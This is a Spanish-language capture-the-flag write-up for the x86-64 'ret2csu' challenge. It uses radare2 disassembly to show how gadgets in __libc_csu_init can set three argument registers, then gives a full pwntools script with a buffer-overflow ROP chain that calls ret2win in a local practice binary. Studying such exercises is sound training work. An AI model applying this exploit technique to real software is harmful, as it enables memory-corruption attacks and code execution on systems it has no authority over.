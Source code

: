 # ret2csu


## x64_64

### Analisis
En este reto debemos nuevamente llamar a  `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`, pero ahora no contamos con muchos gadgets.

"ret2csu" es una tecnica para llenar registros cuando hay una falta de gadgets.

| *Cuando una aplicación se compila dinámicamente (compilada con libc vinculada), contiene una selección de funciones que permiten la vinculación. Estas funciones contienen una selección de gadgets que podemos usar para rellenar los registros para los que no tenemos gadgets, el más importante de los cuales es __libc_csu_init* (Fragmento extraido de [Cybersecurity Notes](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2csu))

 Fragmento extraido de Cybersecurity Notes

Entonces tenemos esta funcion  "__libc_csu_init":
```
[0x00400520]> s sym.__libc_csu_init
[0x00400640]> pdf
            ; DATA XREF from entry0 @ 0x400536(r)
/ 101: sym.__libc_csu_init (int64_t arg1, int64_t arg2, int64_t arg3);
|           ; arg int64_t arg1 @ rdi
|           ; arg int64_t arg2 @ rsi
|           ; arg int64_t arg3 @ rdx
|           0x00400640      4157           push r15
|           0x00400642      4156           push r14
|           0x00400644      4989d7         mov r15, rdx                ; arg3
|           0x00400647      4155           push r13
|           0x00400649      4154           push r12
|           0x0040064b      4c8d259e07..   lea r12, obj.__frame_dummy_init_array_entry ; loc.__init_array_start
|                                                                      ; 0x600df0
|           0x00400652      55             push rbp
|           0x00400653      488d2d9e07..   lea rbp, obj.__do_global_dtors_aux_fini_array_entry ; loc.__init_array_end
|                                                                      ; 0x600df8
|           0x0040065a      53             push rbx
|           0x0040065b      4189fd         mov r13d, edi               ; arg1
|           0x0040065e      4989f6         mov r14, rsi                ; arg2
|           0x00400661      4c29e5         sub rbp, r12
|           0x00400664      4883ec08       sub rsp, 8
|           0x00400668      48c1fd03       sar rbp, 3
|           0x0040066c      e85ffeffff     call sym._init
|           0x00400671      4885ed         test rbp, rbp
|       ,=< 0x00400674      7420           je 0x400696
|       |   0x00400676      31db           xor ebx, ebx
|       |   0x00400678      0f1f840000..   nop dword [rax + rax]
|       |   ; CODE XREF from sym.__libc_csu_init @ 0x400694(x)
|      .--> 0x00400680      4c89fa         mov rdx, r15
|      :|   0x00400683      4c89f6         mov rsi, r14
|      :|   0x00400686      4489ef         mov edi, r13d
|      :|   0x00400689      41ff14dc       call qword [r12 + rbx*8]
|      :|   0x0040068d      4883c301       add rbx, 1
|      :|   0x00400691      4839dd         cmp rbp, rbx
|      `==< 0x00400694      75ea           jne 0x400680
|       |   ; CODE XREF from sym.__libc_csu_init @ 0x400674(x)
|       `-> 0x00400696      4883c408       add rsp, 8
|           0x0040069a      5b             pop rbx
|           0x0040069b      5d             pop rbp
|           0x0040069c      415c           pop r12
|           0x0040069e      415d           pop r13
|           0x004006a0      415e           pop r14
|           0x004006a2      415f           pop r15
\           0x004006a4      c3             ret
```

Hay dos gadgets relevantes. En `0x00400696` podemos hacer `pop` a 6 registros y en `0x00400680` podemos controlar `rdx`, `rsi` y la parte baja de `rdi`, `edi`.

Es la unica forma que tenemos de asignar un valor a `rdx`, pero esta remina en `call qword [r12 + rbx*8]`, que llama a lo direccion que este almacenada en la direccion "[r12 + rbx*8]".

Ademas hay un `cmp rbp, rbx` que hay que sobrepasar y al final se extraen 7 valores de la pila antes de retornar.

### ret2csu

Primero llamamos a `0x00400696` para rellenar los registros.

`r13` contendra cualquier cosa porque al final haremos un `pop_rdi` para llenar `rdi` correctamente; `r14` contendra el valor que queremos para `rsi`: "0xcafebabecafebabe"; y `r15` contendra el valor que queremos para `rdx`: "0xd00df00dd00df00d".

En cuanto al resto de los registros tenemos la seccion `.dynamic` que contiene punteros a funciones como por ejemplo `_fini` que es perfecta porque praticamente no hace nada y solo retorna:
```
[0x00400520]> s sym._fini
[0x004006b4]> pdf
            ;-- section..fini:
/ 9: sym._fini ();
| rg: 0 (vars 0, args 0)
| bp: 0 (vars 0, args 0)
| sp: 0 (vars 0, args 0)
|           0x004006b4      4883ec08       sub rsp, 8                  ; [14] -r-x section size 9 named .fini
|           0x004006b8      4883c408       add rsp, 8
\           0x004006bc      c3             ret
```

```
[0x004006b4]>  s section..dynamic
[0x00600e00]> pd 10
            ;-- section..dynamic:
            ;-- segment.DYNAMIC:
            ;-- _DYNAMIC:
            0x00600e00      .qword 0x0000000000000001                  ; [20] -rw- section size 496 named .dynamic
            0x00600e08      .qword 0x0000000000000001
            0x00600e10      .qword 0x0000000000000001
            0x00600e18      .qword 0x0000000000000038
            0x00600e20      .qword 0x000000000000001d
            0x00600e28      .qword 0x0000000000000078
            0x00600e30      .qword 0x000000000000000c
            0x00600e38      .qword 0x00000000004004d0 ; section..init ; sym._init
            0x00600e40      .qword 0x000000000000000d
            0x00600e48      .qword 0x00000000004006b4 ; section..fini ; sym._fini
```

Queremos que `[r12 + rbx*8]` contenga la direccion de `.dynamic` que apunta a esa funcion, asi que hacemos `rbx`=0 y `r12`=0x00600e48.

Finalmente hacemos `rbp`=1 para superar `cmp rbp, rbx`.

Al final la ROP chain queda asi:
- offset
- pop_6
- call_r12_rbx
- pop_rdi
- ret2win

``` python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./ret2csu")
lib = ELF("./libret2csu.so")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"

pop_rdi =  0x004006a3   # pop rdi; ret
pop6 =  0x0040069a      # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
call =  0x00400680      # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8] ...
dynamic = 0x600e48      # segment.dynamic pointer to _fini

payload = b"A" * 40
payload += p64(pop6) 
payload += p64(0)                                                       # rbx
payload += p64(1)                                                       # rbp
payload += p64(dynamic)                                                 # r12
payload += p64(0) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)   # r13, r14, r15
# call libcsu_fini
payload += p64(call)             
# trash to fill add rsp 8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += b"A" * 56
# call ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
payload += p64(pop_rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(elf.plt.ret2win)
 
io = process("./ret2csu")
io.send(payload)
io.interactive()
```


